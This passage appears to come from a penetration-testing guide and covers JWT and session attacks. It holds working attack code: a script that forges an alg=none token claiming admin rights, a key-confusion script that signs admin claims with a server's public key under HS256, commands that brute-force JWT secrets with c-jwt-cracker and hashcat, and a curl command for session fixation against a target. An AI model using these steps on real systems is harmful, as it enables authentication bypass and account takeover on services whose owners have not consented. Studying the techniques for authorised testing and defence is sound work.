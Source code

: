 ### Step 2.3: JWT Token Attacks

#### Check JWT structure
```bash
# Decode JWT (header.payload.signature)
echo "eyJhbGc..." | cut -d. -f1 | base64 -d
echo "eyJhbGc..." | cut -d. -f2 | base64 -d
```

#### Attack 1: alg=none
```python
# jwt_none.py
import jwt

payload = {"user": "admin", "role": "admin"}
token = jwt.encode(payload, "", algorithm="none")
print(token)
```

```bash
python3 jwt_none.py
# Use this token in Authorization: Bearer <token>
```

#### Attack 2: Weak Secret Brute Force
```bash
# JWT cracker
git clone https://github.com/brendan-rius/c-jwt-cracker
cd c-jwt-cracker
make
./jwtcrack <your-jwt-token>

# Or use hashcat
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

#### Attack 3: Key Confusion (RS256 → HS256)
```python
# jwt_confusion.py
import jwt

# Get public key from /jwks or /.well-known/jwks.json
public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBg...
-----END PUBLIC KEY-----"""

payload = {"user": "admin", "role": "admin"}
# Sign with public key using HS256 (symmetric)
token = jwt.encode(payload, public_key, algorithm="HS256")
print(token)
```

### Step 2.4: Session Attacks
```bash
# Session fixation
# Set your own session ID before login
curl -b "PHPSESSID=malicious123" $TARGET/login -d "user=victim&pass=password"

# Session replay
# Capture valid session in Burp, replay later
```
